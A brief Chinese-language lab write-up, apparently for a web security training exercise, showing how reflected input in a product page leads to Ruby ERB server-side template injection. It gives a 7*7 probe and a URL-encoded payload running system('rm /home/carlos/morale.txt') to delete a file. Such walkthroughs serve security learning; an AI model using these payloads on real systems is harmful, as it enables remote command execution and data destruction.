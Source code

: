 当点击商品详情的时，没有商品则会在页面显示Unfortunately this product is out of stock

并且该值在url中可以由用户控制，验证存在反射型xss。但是还可以尝试更严重的模板注入



实验提示为ERB模板，该模板为ruby的模板

https://zhuanlan.zhihu.com/p/29440823



验证payload:

```javascript
message=<%= 7 * 7 %>
```



页面输出49说明存在模板注入



实验要求删除Carlos/morale.txt



可以使用命令执行来删除：

payload:

```javascript
<%25+system("rm+/home/carlos/morale.txt")+%25>
```

